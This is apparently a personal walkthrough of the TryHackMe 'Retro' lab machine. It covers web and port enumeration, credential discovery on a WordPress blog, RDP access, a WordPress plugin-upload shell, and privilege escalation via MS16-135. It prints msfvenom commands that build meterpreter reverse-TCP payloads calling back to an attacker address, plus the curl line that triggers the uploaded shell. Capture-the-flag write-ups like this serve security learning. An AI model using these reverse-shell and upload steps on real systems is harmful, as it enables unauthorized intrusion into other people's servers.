*2021-09-23*

*kimm3*

# Walkthrough: Retro
Platform: TryHackMe

Difficulty: Hard

- [Link](https://tryhackme.com/room/retro)


## Setup


```
script history/enum1;
export IP=10.10.123.245;
```
## Scans and enumeration
`sudo nmap $IP -p- -A -Pn -v -oA scans/nmap-init`



Http and rdp.



`dirsearch -u $IP --recursive -R 1 -o scans/index-init.md --format=md --random-agent`



`ffuf -u "http://10.10.123.245/FUZZ" -w sl/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -of md -o scans/fuff-index-dir.md `



A blog about retro games.



Wordpress page. Wp-login exposed.



Wade is a valid user. We also have a possible hint about the password.



Started viewing a trailer for the movie and at 1:29:




Success. Did a reverse search for the password and it exists in most common wordlists, but it would take a while.





Once in, I saw a note/comment with the password as well. So there's actually a comment with the password on site:


## Foothold and further enumeration
The wade credentials also works as a local user account with rdp privs, so we can use a rdp client and login.

`xfreerdp /v:$IP /u:Wade /drive:local,/home/kali/retro/upload`



User.txt is on the desktop.

### wp-admin
I map a folder with xfreerdp to transfer files, but another way of uploading files is through the wp-admin site. This would be the way to get a shell if Wade only was a wordpress user and not a local account with rdp enabled.

We can upload a zip as a plugin. The files has to be inside a zipfile, and there has to be at least one php file with a header comment. This is what the 'wp_admin_shell_upload' module in metasploit does.

`msfvenom -p php/meterpreter_reverse_tcp LHOST=10.8.210.115 LPORT=443 -f raw -o merphp.php`

`msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.8.210.115 LPORT=443 -f exe -o merp.exe`



- merphp.php = PHP meterpreter to gain initial access
- merp.exe = Since PHP merp is limited, we can use this for extra functionality(requires a shell to trigger though)
- nc.exe = Handy to have on the machine
- winPEAS.bat for further enumeration/vulnscanning.



Helpful links for the wp-admin uploads:
- https://forum.hackthebox.eu/discussion/3508/wordpress-admin-shell-upload-manual-method
- https://developer.wordpress.org/plugins/plugin-basics/header-requirements/



The url to trigger the php-merp is `<wordpress>/wp-content/plugins/<zipfilename>/<shell-name>.php`.

`curl "http://10.10.164.32/retro/wp-content/plugins/fjdksla/merphp.php"`



In the first session, trigger the .exe file with `execute -f merp.exe` after setting up a listener with exploit/multi/handler.



So we now have access to the web server service account and the wade account.

### Further enumeration


We have impersonation tokens but not for any admin or admin groups.



Administrator is our next target.

Checking services and listening ports.





To get meterpreter as Wade we can simply click the executable from the rdp session.





No impersonation possibilites as Wade either.

## Privilege Escalation


Wade has a bookmark for a CVE, could be the one - could be a rabbit hole. Vuln is really easy:

- https://www.youtube.com/watch?v=3BQKpPNlTSo

The file used in the video is in wades recycle bin, you can also download it from a bunch of sites(or use any executable with a lnik in the 'Issued by' I guess).



I get this far, not being able to select a browser. Having read some walkthroughs after completion of the box, this seems like an intentional way of messing with us. I gave this up here but google for walkthroughs to get it working.



Did a run with windows-exploit-suggester, it suggest MS16-135. Downloaded a powershell script for the exploit from SecWiki and it worked.



**Note**

There are other vulnerabilities to privesc as well, google for other writeups or use the ones linked in the room.
